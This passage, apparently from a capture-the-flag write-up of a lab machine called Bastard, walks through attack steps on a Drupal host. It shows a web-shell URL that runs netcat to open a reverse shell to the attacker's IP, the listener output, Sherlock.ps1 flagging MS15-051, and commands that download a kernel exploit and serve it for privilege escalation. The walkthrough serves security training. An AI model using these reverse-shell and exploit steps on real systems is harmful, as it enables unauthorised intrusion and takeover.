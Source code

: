 We finally downloaded our executable by accessing the following URL: 

{% highlight markdown %}  
http://10.10.10.9/Gerh.php?upload_file=nc64.exe&execute_command=nc64.exe -e cmd 10.10.14.17 6969
{% endhighlight %}  

Ok, we have already managed to have a reverse shell:  

{% highlight zsh %}
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Bastard/server]─[root@Arthorias]─[0]─[4278]
╰─[:)] # python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.9 - - [17/Apr/2019 03:01:37] "GET /nc64.exe HTTP/1.0" 200 -
{% endhighlight %}  

{% highlight zsh %}
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Bastard]─[root@Arthorias]─[0]─[4276]
╰─[:)] # nc -nlvp 6969
listening on [any] 6969 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.9] 49283
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\inetpub\drupal-7.54> whoami
whoami
nt authority\iusr
{% endhighlight %} 

## Privilege Escalation
Among the results thrown by the **Sherlock.ps1**, we will focus on the following:  

{% highlight markdown %}  
Title      : ClientCopyImage Win32k
MSBulletin : MS15-051
CVEID      : 2015-1701, 2015-2433
Link       : https://www.exploit-db.com/exploits/37367/
VulnStatus : Appears Vulnerable
{% endhighlight %}  

To try to exploit this vulnerability, we can download the compiled exploit from the following route:  

{% highlight zsh %}
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Bastard]─[root@Arthorias]─[0]─[4283]
╰─[:)] # wget https://raw.githubusercontent.com/SecWiki/windows-kernel-exploits/master/MS15-051/MS15-051-KB3045171.zip
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Bastard]─[root@Arthorias]─[0]─[4283]
╰─[:)] # unzip MS15-051-KB3045171.zip
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Bastard]─[root@Arthorias]─[0]─[4283]
╰─[:)] # mv /MS15-051-KB3045171/ms15-051x64.exe ./server
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Bastard/server]─[root@Arthorias]─[1]─[4291]
╰─[:(] # ls -la
total 680
drwxr-xr-x 2 root root   4096 Apr 17 03:12 .
drwxr-xr-x 4 root root   4096 Apr 17 03:11 ..
-rw-r--r-- 1 root root  55296 May 13  2015 ms15-051x64.exe
-rw-rw-r-- 1 root root  43696 Dec 26  2010 nc64.exe
-rw-r--r-- 1 root root 562858 Apr 16 03:58 PowerUp.ps1
-rw-r--r-- 1 root root  16678 Apr 16 04:24 Sherlock.ps1
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Bastard/server]─[root@Arthorias]─[0]─[4283]
╰─[:)] # python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
{% endhighlight %}  

